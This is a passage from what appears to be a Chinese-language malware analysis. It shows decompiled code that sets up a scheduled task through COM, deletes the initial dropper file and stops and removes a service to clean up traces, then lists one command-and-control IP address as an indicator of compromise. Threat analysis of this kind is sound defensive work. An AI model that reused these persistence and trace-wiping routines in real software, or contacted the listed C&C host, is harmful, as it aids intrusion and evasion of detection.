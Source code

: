 ```
            //通过com接口{4c3d624d-fd6b-49a3-b9b7-09cb3cd3f047}写计划任务 
            sub_180004B64(v3);
            LODWORD(Size) = 0;
            memcpy(&Size, &Src[v4], 4ui64);
            memset(Parameter, 0, 0x208ui64);
            memcpy(Parameter, &Src[(unsignedint)(v4 + 4)], (unsignedint)Size);
            //创建线程删除初始文件
            LODWORD(v2) = (unsignedint)CreateThread(0i64, 0i64, sub_180004D20, Parameter, 0, 0i64);
            //清理痕迹
            if ( (_DWORD)v8 )
            {
              v10 = OpenSCManagerW(0i64, 0i64, 2u);
              v11 = OpenServiceW(v10, ServiceName, 0xF01FFu);
              QueryServiceStatus(v11, &ServiceStatus);
              if ( ControlService(v11, 1u, &ServiceStatus) )
              {
                Sleep(0x64u);
                DeleteService(v11);
              }
              LODWORD(v2) = DeleteFileW(FileName);
            }
          }
        }
      }
    }
  }
return (int)v2;
}

```

  
如下为火绒剑实行跑出来后系统中进程执行的异常操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBRbRFwX8uBCibiaC7DKIIAG7ZtE1Q3ReC07yfVicy9JQqIlzgndFkfOP9KPxJ8yD83kLnSRqVX8lLvXQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250714000405500  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBRbRFwX8uBCibiaC7DKIIAG7ZFxE0tPVHHATgkPCOfbTB3ZABH3o5JYsib9NQkp0InBxD7d33sAlLH6g/640?wx_fmt=png&from=appmsg "")  
  
image-20250714000532440  
# IOCs  
  
**C&C**  
:  
  
<table><thead><tr><th style="color: rgb(0, 0, 0);font-size: 14px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);height: auto;border-style: solid;border-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;padding: 5px 10px;min-width: 85px;"><section><span leaf="">C&amp;C</span></section></th></tr></thead><tbody><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat-x: no-repeat;background-repeat-y: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">13.230.98.233</span></section></td></tr></tbody></table>  
  